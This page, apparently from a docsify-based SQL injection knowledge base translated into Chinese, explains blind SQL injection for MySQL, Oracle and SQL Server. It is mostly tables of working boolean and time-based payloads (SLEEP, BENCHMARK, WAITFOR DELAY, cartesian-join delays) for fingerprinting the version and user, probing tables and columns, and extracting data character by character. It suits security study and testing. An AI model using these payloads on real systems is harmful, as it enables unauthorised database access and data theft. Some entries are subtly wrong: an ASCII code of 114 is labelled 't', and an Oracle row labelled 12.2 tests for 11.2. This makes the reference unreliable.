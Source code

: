 ### 盲注 {docsify-ignore-all}
盲注是更高级的注入方法之一。部分盲和全盲方法详述如下。执行这些查询时要小心，因为如果通过大量自动化执行，它们可能会使服务器过载。

#### MySQL

##### 部分盲

部分盲注是指返回HTTP状态代码或HTML响应中的其他标记的查询，他们指示真或假陈述。下面的查询将试图通过在猜测的信息上声明真实或错误的响应来利用注入。真或假查询也可以通过返回1（真）或0（假）行来识别。一个错误也可以用来标识0（False）。

| 描述   |      语句     |  
|----------|:-------------:|
| 版本是5.xx   |      SELECT substring(version(),1,1)=5     |  
| 子选择启用   |      SELECT 1 AND (select 1)=1     |  
| 表log\_table存在   | SELECT 1 AND (select 1 from log_table limit 0,1)=1   |  
| 列message存在于表log\_table中 <br />注意：如果列不存在，则查询应该出错   |      SELECT message FROM log_table LIMIT 0,1     |  
| 第一条message的第一个字母是t   |      SELECT ascii(substring((SELECT message from log_table limit 0,1),1,1))=114     |  


##### 将部分盲查询转换为全盲查询

通过使用以下转换，可以在全盲方案中使用上述任何查询：

```code
SELECT IF(*PARTIAL_BLIND_QUERY*, SLEEP(5), null)
```

##### 全盲

部分盲注可以通过HTTP响应中的不同HTTP状态代码，响应时间，内容长度和HTML内容来确定。这些标记可以指示真或假的陈述。下面的查询将试图通过在猜测的信息上声明真或假的响应来利用注入。真或假查询也可以通过返回1（真）或0（假）行来识别。一个错误也可以用来标识0（False）。

| 描述   |      语句     |  
|----------|:-------------:|
| 用户是root   |      	SELECT IF(user() LIKE 'root@%', SLEEP(5), null)     |  
| 用户是root（Benchmark 方法）   |      SELECT IF(user() LIKE 'root@%', BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds')), null)     |  
| 版本是5.xx   |      SELECT IF(SUBSTRING(version(),1,1)=5,SLEEP(5),null)    |  



#### Oracle

##### 部分盲

部分盲注是指返回HTTP状态代码或HTML响应中的其他标记的查询，他们指示真或假陈述。下面的查询将试图通过在猜测的信息上声明真实或错误的响应来利用注入。真或假查询也可以通过返回1（真）或0（假）行来识别。一个错误也可以用来标识0（False）。

| 描述   |      语句     |  
|----------|:-------------:|
| 版本是12.2   |      SELECT COUNT(*) FROM v$version WHERE banner LIKE 'Oracle%12.2%';     |  
| 子选择启用  |      SELECT 1 FROM dual WHERE 1=(SELECT 1 FROM dual)     |  
| 表log\_table存在  |      	SELECT 1 FROM dual WHERE 1=(SELECT 1 from log_table);     |  
| 列message存在于表log\_table中   |      Select COUNT(*) from user\_tab\_cols where column\_name = 'MESSAGE' and table\_name = 'LOG_TABLE';     |  
| 第一条message的第一个字母是t  |      Select message from log_table where rownum=1 and message LIKE 't%';     |  

#####   将部分盲查询转换为全盲查询

通过使用以下转换，可以在全盲方案中使用上述任何查询： 

```code
SELECT CASE WHEN (*PARTIAL_BLIND_QUERY*)=1 THEN (SELECT count(*) FROM all_users a, all_users b, all_users c, all_users d) ELSE 0 END FROM dual
```

部分盲查询必须返回一行，因此总是尝试在所选列上使用COUNT。添加"all_users [letter]"，直到数据库响应变慢。 如果数据库缓存响应，您可能需要循环[letter]。

##### 全盲

全盲查询不会在HTTP / HTML响应中指示任何查询结果。这使他们依赖于定时功能和其他[out-of-band](/attackQueries/dataExfiltration) 攻击方法。一个真的SQL语句需要X秒的回应，一个假的SQL语句应该立即返回。

| 描述   |      语句     |  
|----------|:-------------:|
| 版本是12.2  |      SELECT CASE WHEN (SELECT COUNT(\*) FROM v$version WHERE banner LIKE 'Oracle%11.2%')=1 THEN (SELECT count(*) FROM all\_users a, all\_users b, all\_users c, all\_users d) ELSE 0 END FROM dual     |  





#### SQL Server

##### 部分盲

部分盲注是指返回HTTP状态代码或HTML响应中的其他标记的查询，他们指示真或假陈述。下面的查询将试图通过在猜测的信息上声明真实或错误的响应来利用注入。真或假查询也可以通过返回1（真）或0（假）行来识别。一个错误也可以用来标识0（False）。

| 描述   |      语句     |  
|----------|:-------------:|
| 版本是12.0.2000.8   |      SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'     |  
| 子选择启用   |      SELECT (SELECT @@version)     |  
| 表log\_table存在  |      SELECT * FROM log_table     |  
| 列message存在于表log\_table中  |      SELECT message from log_table     |  
| 第一条message的第一个字母是t   |      WITH data AS (SELECT (ROW\_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table) SELECT message FROM data WHERE row = 1 and message like 't%'     |  

#####  将部分盲查询转换为全盲查询

通过使用以下转换，可以在全盲方案中使用上述任何查询： 

```code
IF exists(*PARTIAL_BLIND_QUERY*) WAITFOR DELAY '00:00:02'
```
##### 全盲

全盲查询不会在HTTP / HTML响应中指示任何查询结果。这使他们依赖于定时功能和其他[out-of-band](/attackQueries/dataExfiltration) 攻击方法。一个真的SQL语句需要X秒的回应，一个假的SQL语句应该立即返回。

| 描述   |      语句     |  
|----------|:-------------:|
| Version is 12.0.2000.8   |      IF exists(SELECT @@version where @@version like '%12.0.2000.8%') WAITFOR DELAY '00&#58;00&#58;02'     |  




